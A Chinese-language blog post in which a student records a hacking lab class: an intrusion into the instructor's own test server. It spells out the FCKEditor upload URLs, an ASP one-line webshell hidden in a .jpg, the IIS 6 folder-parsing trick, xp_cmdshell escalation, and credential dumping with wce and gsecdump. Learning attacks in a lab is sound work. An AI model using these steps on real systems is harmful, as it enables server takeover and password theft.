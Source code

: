 ```yaml
---
layout: page
title: The Hacker Way(1)
category: 技术
tags: Hacker
---
```

{% include JB/setup %}

今天正式进入“十个小伙伴的故事”实战。这节课没有多余的废话，就是实战。

猥琐的老湿在他自己搭建的环境上演示了一把入侵，然后分析了下入侵的细节，然后我们便依样画葫芦的进行了一遍入侵。尽管只算是个小模拟，但是小心脏还是扑通扑通的兴奋。

今晚是第一次接触“入侵”，对于大部分概念不甚理解。现在只能记录下大概的操作步骤，作为记录。

这次的入侵是利用了网站的FCKEditor文件上传漏洞。

##### Step1. 定位漏洞，创建特殊文件夹名，再执行文件解析漏洞得到webshell
其实这里的难点应该是定位漏洞，不过作为第一次的实战课，老湿侧重让大家体验入侵的过程，省略了定位的过程。   

- 通过漏洞新建一个文件夹`/kingcms/admin/system/editor/FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/hack.asp&NewFolderName=hack.asp`
- 进入操作界面
`/kingcms/admin/system/editor/FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=../../connectors/asp/connector.asp`
- 制作包含ASP webshell代码的正常后缀名文件, 例如jpg文件
echo "<%execute(request("MH"))%>" >> jinbin.jpg
- 上传此文件至刚才新创建的文件夹内
此处利用了IIS 6处理文件夹扩展名时，将/*.asp/目录下的所有文件都作为ASP文件进行解析的漏洞。此时，IIS 6将jinbin.jsp作为ASP文件处理。

##### Step2. 查找可进行提权的漏洞
完成第一步，仅仅只能获得普通权限，一般情况下其实什么也做不了。所以，找到提权的漏洞是第二步。

- 浏览目录结构，找到提权途径，一般分为以下几种：
  - 数据库
  - web应用程序
  - OS
  - 第三方软件
  - DLL劫持
  - 启动项 (...)  

此处利用里数据库的漏洞。所以把注意力放到配置文件中，找到数据库配置信息。一般来说，数据库信息都经过了加密，所以要学会解密(解密过程没怎么讲，所以略过)。

##### Step3. 服务器提权
利用植入的大马(猥琐的老湿事先已经准备好)，和Step2中得到的用户名、密码，通过MSSQL的扩展存储xp_cmdshell可直接执行命令，且权限为system

##### Step4. 获取账号hash
1. <wce> 可以通过wce -w 获取目前正处于登录状态的所有账号明文密码。   
   WCE全称Windows Credentials Editor。
2. <gsecdump> 可以通过gsecdump -a 获取处于这台服务器上的账号密码hash，然后通过彩虹表进行破解.  
这里可以参考http://www.objectif-securite.ch/en/ophcrack.php (在线LM Hash破解网站)  

这里的命令都利用了Step3 中的xp_cmdshell来执行。

至此，主机的管理员用户名及密码都已经到手了。
